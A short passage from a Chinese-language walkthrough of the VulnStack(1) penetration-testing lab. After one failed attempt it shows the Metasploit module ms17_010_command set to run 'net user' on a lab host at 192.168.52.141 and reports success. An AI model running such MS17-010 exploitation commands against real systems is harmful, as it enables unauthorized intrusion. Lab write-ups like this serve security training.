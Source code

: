失败

![img](VulnStack(1)/images/image-6.png)

换另一个模块:
```
use auxiliary/admin/smb/ms17_010_command
set COMMAND net user
set RHOST 192.168.52.141
exploit
```

发现可以打

![img](VulnStack(1)/images/image-8.png)
